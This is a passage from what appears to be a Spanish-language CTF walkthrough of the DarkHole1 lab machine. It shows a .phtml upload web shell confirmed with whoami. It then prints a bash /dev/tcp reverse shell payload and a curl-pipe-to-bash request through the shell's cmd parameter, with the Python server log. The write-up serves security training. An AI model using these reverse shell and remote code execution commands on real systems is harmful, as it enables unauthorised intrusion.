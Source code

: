 Observamos que se han subido los archivos con todas las extensiones, vamos a revisarlos uno por uno.

Después de revisarlos y ver que todos no están siendo interpretados, llegamos al **.phtml**:

![](/imagenes/DarkHole1/darkhole1_18.png)

Puede ser que el código se esté interpretando, vamos a intentar ejectuar **whoami**:

![](/imagenes/DarkHole1/darkhole1_19.png)

Vemos que tenemos ejecución remota de comandos, vamos a crear entonces una conexión hacia nuestra máquina para ganar acceso al sistema.

Vamos a compartir un archivo index.html malicioso, que haciendo uso del /dev/tcp nos envíe una conexión hacia nuestra máquina, estaremos compartiendo este archivo haciendo uso de un servidor http con python, mientras estaremos conexión con netcat. Dentro del parámetro **cmd** haremos una petición a nuestro recurso y lo vamos a pipear con bash para así ejecutar su contenido.

El archivo html malicioso es este:

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.233.128/1234 0>&1
```

Vamos a dejar abiertos el servidor en python y el netcat.

Vamos a ingresar la petición a la página:
```
192.168.233.129/upload/shell.phtml?cmd=curl%20192.168.233.128%20|%20bash
```
Si vemos nuestro servidor en python:
```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.233.129 - - [20/Feb/2023 15:21:53] "GET / HTTP/1.1" 200 -
```
